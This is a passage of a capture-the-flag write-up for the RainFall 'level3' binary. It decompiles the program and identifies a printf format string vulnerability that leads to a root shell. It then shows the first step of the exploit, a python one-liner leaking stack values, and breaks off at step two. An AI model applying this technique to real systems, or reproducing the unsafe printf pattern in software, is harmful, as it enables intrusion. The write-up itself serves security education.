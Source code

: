 ## Basic analysis

As we see, **level3** binary prints out what is being fed to it via stdin:
~~~shell
.level3 
42 let me pass
42 let me pass
~~~
Let's make a secure copy of the executable and examine it with **Ghidra**. We will discover that **main()** is just calling **v()** and returns.  
**v()** is using **fgets()** to get the input from user, saves it into the premade **char xxx[520]** string and prints it using **printf()**. That is what we see as program execution.
~~~C
void main(void)

{
  v();
  return;
}

void v(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}
~~~
That's not all of course - there is condition comparing variable **m** to number **64** (0x40 in hexa). If true, it will let us pass to next level.
Thus, we need to somehow modify the variable m. It is not defined in the scope of v(), nor passed through from main, so it must be a global variable.
We use **gdb**'s "info variables" to get its memaddress: **0x0804988c**

## Format string attack
**print() can be utilized for **format string attack** as described [HERE](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/). We will force the insertion of value 64 into the **m** variable memory position by using printf's variadic nature.
**Step 1**: we find where in the stack is the variable read by fgets - this will be our way in. We do this by explouting printf to print us the memory:
~~~shell
level3@RainFall:~$ python -c 'print "AAAA" + " %p" * 10' | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
~~~
**0x41414141** is our "AAAA" input - AAAA is 41414141 in hex.
**Step 2**:
